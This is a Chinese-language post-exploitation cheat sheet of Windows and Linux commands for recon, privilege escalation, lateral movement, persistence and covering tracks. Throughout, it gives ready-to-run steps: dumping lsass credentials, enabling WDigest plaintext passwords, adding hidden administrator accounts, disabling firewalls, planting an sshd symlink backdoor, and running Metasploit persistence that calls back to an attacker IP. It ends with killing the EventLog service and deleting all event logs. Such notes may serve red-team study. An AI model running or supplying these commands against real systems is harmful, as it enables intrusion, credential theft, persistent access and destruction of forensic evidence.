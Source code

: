 # 信息收集

- 出网端口扫描.输出到文件。
- [后渗透之 windows 中无文件落地执行方法](https://mp.weixin.qq.com/s/-rN-rsnYRSKuJr5BkaRnBg)
- dump 密码
  - 任务管理器转储
  - procdump64.exe -accepteula -ma lsass.exe lsass.dmp

```sh
# -- windows
arp -a
ipconfig /all
dir /a C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent
dir /a C:\Users\Administrator\Desktop
dir /a C:\Users\public\Desktop
reg query HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
# for /f "tokens=2 delims==" %a in ('wmic useraccount where name^="%username%" get sid /value') do set current_sid=%a
# reg query HKEY_USERS\%current_sid%\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
# reg query HKEY_USERS\S-1-5-21-3921407625-4142045542-3089788233-500\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU  # 远程连接信息
reg query HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\TypedPaths
reg export "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" Winlogon.reg
dir D:\ /s | findstr /i ora >c:\tmp.txt # 查找ora文件
dir /s /b *admin*                       # 查找admin相关文件.
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f   # 允许pth登录
shell net user defaultuser1 123 /add && net localgroup administrators defaultuser1 /add
# 查询数据库连接IP记录 见 30_mssql_sqlserver.md

netstat -lantp | grep ESTABLISHED # 关注sshd进程，即运维人员公司IP

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f # 管理员登录可读明文

# -- linux
/etc/passwd
/home/<username>/.bash_history
```

- [查询数据库连接 IP 记录](./30_mssql_sqlserver.md#查询日志访问-ip数据库)

## web 路径

```
C:\tomcat\webapps\xxxx\WEB-INF\web.xml
```

## windows

```shell
## 提权
JuicyPotato
SweetPotato
echo 其他漏洞见 z02
## 横向
meter> upload /root/fscan64.exe # 1.ipconfig 查看网段, # 2.arp -a # 2.1 route print # 3. fscan扫描 横向移动
meterpreter > run post/windows/manage/enable_rdp # 开 rdp
meterpreter > run getgui -e                      # 开启远程桌面
meterpreter > run getgui -u xiaowei -p 123456    # 创建用户
### [『红蓝对抗』RDP 多开小技巧 | 远程桌面](https://mp.weixin.qq.com/s/ji7YpWe1OyyhSlDOYydzWw)
# 远程桌面 要求的函数不受支持
# reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1                              # 开启3389远程桌面
netsh advfirewall set allprofiles state off
netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes                                 # M2: 放行3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow # M1: 放行3389

# 远程桌面 rdp
proxychains rdesktop 192.168.52.141  # 可以改过期密码
proxychains rdesktop 172.22.4.45 -u 'WIN19\Adrian' -p babygirl2 -r disk:home=/home/kali/vmware/test/rw
rdesktop -u yourname -p password -g 1024x720 192.168.0.2
rdesktop -r disk:tmp=/home/user/Desktop <remote ip address> # 映射文件夹
remmina # 可配代理 见 90_tools.md
freerdp
xfreerdp


net config Workstation # (当前计算机名，全名，用户名，系统版本，工作站域，登陆域)
net localgroup administrators
net view # 查看局域网内所有计算机
使用CS扩展的Ladon插件探测内网存活主机情况
Ladon 192.168.52.0/24 OnlinePC
net view /domain 查看域情况
CS和msf联动

# 内网主机信息收集
## * everything文件搜索（正则表达式提高效率）
## * 浏览器保存的密码/微信/QQ文件夹/回收站/共享盘/邮件软件/协同软件
## * 远程软件保存的远程连接 mstsc/内网通/向日葵/todesk等

```

### 多用户登录远程桌面

[RDP 连接多开方法与利用思路](https://mp.weixin.qq.com/s/GCFCIwqnQUAFNED0dTVDoA)

```bash
net user admin 123456 /add
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add 2>nul

# 1. 不同用户同时登录
mimikatz.exe privilege::Debug ts::multirdp exit
# 2. 同用户同时登录 RDPWrap, 好像不好使
install.bat
rdpconf.exe  # 取消 Single Session
## 2.1 win10+win11 http://github.com/anhkgg/SuperRDP
```

## linux

[Linux 内网渗透基础篇](https://mp.weixin.qq.com/s/MV4bTIW7YKiBgS6r03_FFw)

```shell
get_info_01_linux.sh
meterpreter > getSystem "whoami"

uname -a    # 获取所有版本信息
uname -m    # 获取Linux内核架构
cat /proc/version    # 获取内核信息
cat /etc/*-release   # 发布信息
cat /etc/issue    # 发布信息
hostname    # 获取主机名
cat /etc/passwd    # 列出系统所有用户
cat /etc/group    # 列出系统所有组
w    # 查看目前登录的用户
whoami    # 查看当前用户
id    # 查看当前用户信息
sudo -l    # 列出目前用户可执行与无法执行的指令
ps aux    # 查看进程信息
ls -la /etc/cron*    # 查看计划任务
ls -la /tmp
ifconfig -a    # 列出网络接口信息
cat /etc/network/interfaces    # 列出网络接口信息
arp -a    # 查看系统arp表
route    # 打印路由信息
netstat -anplt    # 打印本地端口开放信息
iptables -L    # 列出iptable的配置规则
```

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

## 权限维持

ssh 软连接后门 需 root 执行后门命令，任意密码登录

```shell
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oport=12345
```

- [msf](https://mp.weixin.qq.com/s/Ch73sZqK54HVlJQEhbBb6g)

msf 维持 1 run persistence

```bash
run persistence –h #查看帮助
run persistence -U -i 5 -p 1234 -r 192.168.47.128
#-U指定启动的方式为用户登录时，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
```

msf 维持 2 metsvc

```bash
run metsvc –h # 查看帮助
run metsvc –A #自动安装后门
```

## 日志清除

```ps1
$a=Get-WmiObject -Class win32_service -Filter "name = 'eventlog'"
taskkill /F /PID $a.ProcessId
del %SystemRoot%\System32\winevt\Logs\*
net start EventLog
```

# 04 自动信息收集

Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973

快速查找 exp

systeminfo>micropoor.txt&(for %i in ( KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits

## ssh 相关

1.密钥篡改 authorized_keys 2.重装覆盖 openssh-backdoor https://github.com/Psmths/openssh-backdoor

### bypassuac

1. msf

```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```

2. CVE 编号:CVE-2019-1388,windwos 证书对话框特权提升漏洞。补丁号 KB4524235 KB4525233

# Article

[后渗透之 windows 中无文件落地执行方法](https://mp.weixin.qq.com/s/GqgFDi8hJ3NcN8c98yIXuw)
[后渗透之 windows 中远程下载文件 tips](https://mp.weixin.qq.com/s/Ax0CaErM3F6VCctTB2KaHA)
